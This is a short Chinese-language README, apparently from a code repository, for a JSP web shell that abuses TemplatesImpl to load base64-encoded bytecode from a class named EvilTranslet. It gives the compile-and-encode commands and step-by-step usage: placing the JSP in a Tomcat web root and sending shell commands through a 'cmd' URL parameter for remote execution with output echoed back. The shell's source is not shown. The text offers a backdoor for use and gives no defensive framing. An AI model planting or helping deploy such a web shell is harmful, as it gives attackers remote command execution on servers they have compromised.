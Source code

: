 ### 利用TemplatesImpl触发的JSP WebShell

编译字节码:
```
javac EvilTranslet.java

cat EvilTranslet.class|base64
```

使用：
```
ps:若要修改字节码逻辑，修改后按照上面编译字节码的方式得到base64字节码替换jsp文件中的base64字节码

1.把jsp文件放到能被解析的服务器目录，例：tomcat的webapps/ROOT

2.在浏览器访问11.jsp，并使用参数cmd传入需要远程执行的命令，例：http://127.0.0.1:8080/11.jsp?cmd=whoami

3.服务器将会执行相应的shell命令，最后回显
```